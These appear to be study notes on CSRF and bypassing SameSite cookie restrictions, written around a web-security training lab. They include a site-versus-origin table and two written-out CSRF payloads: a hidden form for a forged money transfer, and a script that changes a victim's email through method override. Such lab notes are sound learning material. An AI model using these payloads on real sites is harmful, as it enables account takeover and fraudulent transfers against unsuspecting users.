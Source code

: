 In this situation, the attacker can forge a csrf token and a cookie (also invent a new one) which are the same and place them in the request that will be runned by the victim.

## Bypassing SameSite cookie restrictions

In the context of SameSite cookie restrictions, a site is defined as the top-level domain (TLD), usually something like `.com` or `.net`, plus one additional level of the domain name. This is often referred to as the TLD+1.
When determining whether a request is same-site or not, the URL scheme is also taken into consideration

![[tld.png]]

#### What's the difference between a site and an origin?

The difference between a site and an origin is in their scope; a site encompasses multiple domain names, whereas an origin only includes one.

|                           |                                |                       |                            |
| ------------------------- | ------------------------------ | --------------------- | -------------------------- |
| **Request from**          | **Request to**                 | **Same-site?**        | **Same-origin?**           |
| `https://example.com`     | `https://example.com`          | Yes                   | Yes                        |
| `https://app.example.com` | `https://intranet.example.com` | Yes                   | No: mismatched domain name |
| `https://example.com`     | `https://example.com:8080`     | Yes                   | No: mismatched port        |
| `https://example.com`     | `https://example.co.uk`        | No: mismatched eTLD   | No: mismatched domain name |
| `https://example.com`     | `http://example.com`           | No: mismatched scheme | No: mismatched scheme      |

#### Bypassing SameSite Lax restrictions using GET requests

Servers don't always check whether they receive a `GET` or `POST` request to a given endpoint, even those that are expecting a form submission. In these cases, an attacker could perform a `GET` request submitting a `POST` form, like this:

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST"> 
	<input type="hidden" name="_method" value="GET"> 
	<input type="hidden" name="recipient" value="hacker"> 
	<input type="hidden" name="amount" value="1000000"> 
</form>
```

###### Lab: SameSite Lax bypass via method override

- You can override the `POST` method by sending a `GET` request but with the following request parameter `_method=POST`, like this:

```html
<html> 
<body> 
	<script>
	    document.location = "https://0ad2004603faaf888227512700ea00e3.web-security-academy.net/my-account/change-email?email=pwned5336@example.com&_method=POST";
	</script>
</body> 
</html>
```
